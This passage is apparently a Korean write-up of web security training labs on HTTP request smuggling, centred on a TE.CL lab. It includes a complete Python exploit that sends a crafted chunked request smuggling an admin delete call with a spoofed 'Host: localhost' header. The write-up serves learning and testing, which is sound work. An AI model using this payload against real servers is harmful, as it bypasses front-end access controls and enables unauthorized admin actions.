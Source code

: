 - `Admin interface only available to local users` 에러가 떠서 `Host: localhost`로 지정해줬습니다.

- `Host` 헤더를 따로 지정해주니까 원래 붙는 `Host`와 중복되서 자꾸 400 에러가 뜹니다. 그래서 `\r\n`를 삽입해줘서 원래의 요청이 body가 되게 해줬습니다.

`/admin`에 접근했다면 `delete`의 경로를 알 수 있고 그 경로로 요청을 보내면 됩니다.

**Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability**

**LAB Description :**

Front-end, Back-end 서버로 이루어져있고 Back-end 서버는 chunked encoding을 지원하지 않습니다. `/admin`에 어드민 패널이 있고 Front-end 서버는 어드민이 아닌 사용자의 요청을 막습니다.

이 문제를 풀려면 어드민 패널에 접근하는 요청을 smuggle 해서 `carlos` 사용자를 삭제하면 됩니다.

**PAYLOAD :**

``` python
import socket
import requests
import ssl

HOST = "ac4c1f991e8b814281d118c900760051.web-security-academy.net"
PORT = 443

def send_payload(data):
    context=ssl.create_default_context()
    sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    ssl_sock=context.wrap_socket(sock,server_hostname=HOST)
    ssl_sock.connect((HOST,PORT))
    ssl_sock.send(data)
    data = ssl_sock.recv(1024)
    ssl_sock.close()

    return data

second_request  = b'GET /admin/delete?username=carlos HTTP/1.1\r\n'
second_request += b'Host: localhost\r\n'

first_request  = b'POST / HTTP/1.1\r\n'
first_request += b'Host: '+HOST.encode()+b'\r\n'
first_request += b'Content-Length: 4\r\n'
first_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
first_request += b'Transfer-Encoding: chunked\r\n'
first_request += b'\r\n'
first_request += hex(len(second_request))[2:].encode()+b'\r\n'
first_request += second_request
first_request += b'\r\n'
first_request += b'0\r\n\r\n'


smuggle_request = first_request

data = send_payload(smuggle_request)

print (f'{"[*] REQUEST":^10}')
print (smuggle_request.decode())
print ("{:^10}".format("[*] RESPONSE"))
print (data.decode())
```
